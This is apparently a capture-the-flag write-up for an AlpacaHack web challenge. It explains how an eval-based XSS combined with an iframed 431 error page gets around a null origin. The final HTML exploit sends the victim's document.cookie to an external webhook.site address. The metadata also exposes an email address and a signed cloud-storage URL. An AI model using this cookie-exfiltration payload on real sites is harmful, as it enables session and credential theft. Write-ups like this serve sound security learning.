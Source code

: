 ```yaml
---
id: 14e48583-e65d-80e6-b8d5-c53f07905d97
title: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
created_time: 2024-11-30T11:42:00.000Z
last_edited_time: 2025-05-22T09:27:00.000Z
cover_image: ./imgs/just-a-chill-guy_3tLjvXZj.jpg
icon_emoji: 😭
categories:
  - XSS
verification:
  state: unverified
  verified_by: null
  date: null
page: >-
  Bypassing null Origin in 4xx Status Code Using Iframe | disconnection-revenge
  Writeup | AlpacaHack Round 7 (Web)
owner:
  - object: user
    id: ee7aeeeb-cd0d-4cbb-9e7e-109320ff16fa
    name: Dimas
    avatar_url: >-
      https://s3-us-west-2.amazonaws.com/public.notion-static.com/fab4bcf0-36ea-4bd6-8847-f18b157387da/92920739.png
    type: person
    person:
      email: dimasmaulana0305@gmail.com
_thumbnail: ./imgs/just-a-chill-guy_3tLjvXZj.jpg

---
```


Unfortunately, I solved this challenge only 30 minutes after the CTF ended. Here is my write-up about the challenge.

![](./imgs/image_DwgIE5Io.png)

![](./imgs/image_OeAvG4ga.png)

# Description

This is a fixed challenge of `disconnection`.

[image](https://prod-files-secure.s3.us-west-2.amazonaws.com/39d1be85-e7c6-4263-a666-a42da95a70df/05b115ea-7d4c-4e24-b39d-6e32117c2161/disconnection-revenge.tar.gz?X-Amz-Algorithm=AWS4-HMAC-SHA256\&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD\&X-Amz-Credential=ASIAZI2LB466V2C5WJMA%2F20250523%2Fus-west-2%2Fs3%2Faws4_request\&X-Amz-Date=20250523T073424Z\&X-Amz-Expires=3600\&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEC8aCXVzLXdlc3QtMiJHMEUCIBqQ1Ge5RgEI9QSjC2bxfN27SdmmAxx1tcLLGpLYIxaeAiEAvDFmCch9dkV79p7hlharwWgXLCJ4ISl%2Br%2FtXQa%2FXLqgqiAQI6P%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARAAGgw2Mzc0MjMxODM4MDUiDBwk9AGEcwPG2Ge5AircA4mXImGwRmbgzw40f9qzjKMgAE2r5fSNag7WGdheXSMdGMCD2FZ%2BJugD4d3VwKfBYy7G6GEQBBIV2T1tF3%2BXuK3%2FEj61GVgtmDbla%2BSVO2FSVfSJiWWeGgV3sAAPGqZaztz03igL53ZroYWBEDGCdKSi1IU7VNCW2qHOeHLslfU72VyHlLeAYxBOiohPKGKDcSHdSaDkMxenqD5t4vjviiNUWrh5TZ77kHw7M%2F3o84puFmHPMFe4GrP619GT1vyJRQWrJer4p5hy3SzooSRx%2Fy%2F2Mypo3MXnhYw8RYX3Hej3fIYOLMD4TNHVj9UdUJzHwbvSVAwH1ZFQARZ1Y6xlXTED1Z8wMVAGXuNdA41Fe2bvlJR3%2BAaj8EIvUfhXTiEM99zk3ht6mYYPaWetgiVXiwv8FViTUzY6X4QQ9XC0IfHk0B9p06%2FjZyxrqakwnWqNJNkmLnb9wSeb4jgTveWZXVh5%2BmdGX54%2BTK981qb6fYtPZRytBoZPF791TgF%2BPPcmUwKNk26DbuMUuWq26RqhAQN%2BhMi9t56W1XnKB5E2kR%2FXLa8Vsvi4H982ar215KIJ57NA6E9Evdbw1lDh6zZJ75g4jw5e0EL79Nwfc8Q16D0O4DxsPXru4pco%2BwC0MJizwMEGOqUBVRxpwMo0PxbtQcQ5xQforyRBafJz%2Flw66VVNCBIiscXFCGPTOAQB%2FnQGadyvVHlRXp49x28Dj%2BIAdF%2BberWFKCWzal5fZdPKQuUBBdvRm9NdwNtLgFKJBuT6qX7QsoM4ZBeogabZH6rk9ZF%2BF2CPLnbdKP6aApyhfgOTizbpMFLkSaDRRyeSMPvUXCutxwl%2FUboSZ2zIM2qzty1UxXJlca%2B42EUG\&X-Amz-Signature=c5172b474b7d9c612189af435969759b38f46afdddb3418d549c293eabe7956c\&X-Amz-SignedHeaders=host\&x-id=GetObject)

*   Challenge: [http://34.170.146.252:55944](http://34.170.146.252:55944/), Admin bot: [http://34.170.146.252:56152](http://34.170.146.252:56152/) shared

# Exploit

In this challenge, we are given source code like this:

```javascript
import express from "express";

const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();

express()
  .use("/", (req, res, next) => {
    res.setHeader(
      "Content-Security-Policy",
      "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
    );
    next();
  })
  .get("/", (req, res) => res.type("html").send(html))
  .all("/*", (req, res) => res.socket.destroy()) // disconnected
  .use((err, req, res, next) => {
    // revenge!
    res.socket.destroy(); // disconnected
  })
  .listen(3000);

```

The interesting part about this source code is in the Content Security Policy (CSP):

```javascript
res.setHeader(
  "Content-Security-Policy",
  "script-src 'unsafe-inline' 'unsafe-eval'; default-src 'none'"
);

```

The disconnect mechanism:

```javascript
.all("/*", (req, res) => res.socket.destroy()) // disconnected
.use((err, req, res, next) => {
  // revenge!
  res.socket.destroy(); // disconnected
})

```

There's also a code injection vulnerability here that allows us to gain XSS:

```javascript
const html = `
<h1>XSS Playground</h1>
<script>eval(new URLSearchParams(location.search).get("xss"));</script>
`.trim();
```

The flag is located in the `/cookie` path, as shown in this snippet of the source code:

```javascript
await page.setCookie({
  name: "FLAG",
  value: FLAG,
  domain: APP_HOST,
  path: "/cookie", // 🍪
});

```

The interesting part is that we can't get the flag easily by accessing `/cookie` directly using XSS and get the cookie from that. The disconnect mechanism causes us to be instantly disconnected when accessing any URL except `/`, resulting in a browser error. Therefore, when we try to access URLs like `/cookie`, the browser will instantly error ERR\_EMPTY\_RESPONSE, and the origin will be null as shown in the image below.

![](./imgs/image_xyiZIUrb.png)

There’s a trick introduced in a previous Google CTF to bypass this issue, as detailed in this [Google CTF solution](https://github.com/google/google-ctf/tree/8ea1054a4a6af49e8cf14e10896dc94d73126a29/2023/quals/web-postviewer2/solution#no-csp-subpage). The trick involves adding an arbitrarily large number of characters into the parameters to make the server return `431 (Request Header Fields Too Large)`. However, simply adding a large number of characters to the parameters won't work, as shown in the image below, where the origin is still null.

![](./imgs/image_oXKFjaHs.png)

The key is to iframe the `431` page, which somehow makes the origin become the original origin instead of null, as shown in the image below.

![](./imgs/image_U9FpYp4t.png)

But… there’s always a problem after problem. The cookie isn’t included in the iframe because the cookie isn’t set to `SameSite=None`, so it’s not included in the iframe in a different origin.

![](./imgs/image_nVR512CH.png)

I just found a strange trick after trying to open a new opener inside the `/cookie` path here:

![](./imgs/image_8Oq9CJYo.png)

When I try to `open("")`, it will have an origin, and the location is `about:blank`. There’s also the flag that should be in the `/cookie` path. I assume that the window we open is somehow in the `/cookie` path, but with the `about:blank` location. I don't know why this happens 💀. But here is my final exploit:

```html
<html>
    <body>
        <iframe></iframe>
        <iframe></iframe>
        <script>
            async function main(){
                const target = "disconnection-revenge"
                const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
                var iframe = document.getElementsByTagName('iframe')[0];
                iframe.src = "http://"+target+":3000/cookie/?"+"A".repeat(100000);
                await sleep(1000);
                var iframe2 = document.getElementsByTagName('iframe')[1];
                iframe2.src = "http://"+target+":3000/?xss="+"w = top.frames[0].open('');setTimeout(()=>{open(`https://webhook.site/37fa4a4c-9842-42db-9431-a15d81aee4a0?${w.document.cookie}`)},1000)";
                await sleep(1000);
            }
            main();
        </script>
    </body>
</html>

```

![](./imgs/image_BQK3W663.png)
